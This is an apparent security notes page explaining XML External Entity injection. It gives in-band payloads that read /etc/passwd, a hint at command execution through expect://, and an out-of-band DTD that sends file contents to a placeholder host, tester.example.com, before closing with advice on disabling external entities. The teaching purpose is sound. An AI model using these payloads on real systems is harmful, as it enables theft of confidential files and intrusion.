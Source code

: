 # XXE

XML Entity Injection is a powerful vulnerability that can allow for confidential data theft and in rare cases command execution. It was also often overlooked for a while - but now it features in the OWASP Top 10 as A4 it's a lot more well known. The issue comes about within XML parsers where external entities are processed which can allow for URIs to be loaded.
source: https://akimbocore.com/article/xxe-xml-external-entity-injection/



There are two types of XXE attacks: in-band and out-of-band (OOB-XXE).  
1) An in-band XXE attack is the one in which the attacker can receive an immediate response to the XXE payload.

2) out-of-band XXE attacks (also called blind XXE), there is no immediate response from the web application and attacker has to reflect the output of their XXE payload to some other file or their own server.


If you have an application which processes XML you're going to see something like this:

```xml
<?xml version='1.0' encoding='UTF-8'?> 
<todo>
<item>Buy more Toilet Roll</item>
</todo>
```

With many parsers you can modify this content and define entities. Here's a simple example with an entity defined:

```xml
<?xml version='1.0' encoding='UTF-8'?>
<!DOCTYPE replace [<!ENTITY example "Toilet Roll"> ]>
<todo>
<item>Buy more &example;</item>
</todo>
```



Sample Payloads

```xml
<?xml version="1.0"?>  
<!DOCTYPE root [<!ENTITY read SYSTEM 'file:///etc/passwd'>]>  
<root>&read;</root>
```

```xml
<?xml version='1.0' encoding='UTF-8'?>
<!DOCTYPE replace [<!ENTITY example SYSTEM "file:///etc/passwd"> ]> 
<todo>
<item>Buy more &example;</item>
</todo>
```



 try "expect://id" to run commands
 
 also php code is possible (check payloadsAllTheThings)
  

# Out of Band Exploitation

It's also possible to exploit XEE out of band, meaning that if an application processes XML but does not render the output within the application it's still possible to exfiltrate confidential data. This is achieved by the vulnerable parser to forward the response to an external server.

This attack takes two steps, the first is to host a DTD on an accessible web server, something like this:

```xml
<!ENTITY % payload SYSTEM "file:///etc/passwd">
<!ENTITY % param1 "<!ENTITY external SYSTEM 'http://tester.example.com/log_xxe?data=%payload;'>"> 
```
The intention of this file is to load the target file (in this example /etc/passwd) and append the result to the end of a web request to a server you can access (in this case tester.example.com). To utilise this DTD you would send a request to the vulnerable web server like the below:

```xml
<?xml version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE foo [ <!ENTITY % pe SYSTEM "http://tester.example.com/xxe_file"> %pe; %param1; ]>
<foo>&external;</foo> 
```
This would cause the vulnerable application to load the remote DTD, which executes as described above. You can verify the exploit worked by checking the server logs, an initial request will be logged for the xxe_file followed shortly by a request containing the file content.

 
 ## Fixing XML External Entity Injection

In instances where XML external entities are not required for normal function of the vulnerable application, they may simply be disabled by reconfiguring the XML parser. In cases where they are required the system should be reconfigured such that the user cannot define arbitrary entities; this may be possible by simply ignoring or overwriting any supplied XML Document Type Definitions (DTD).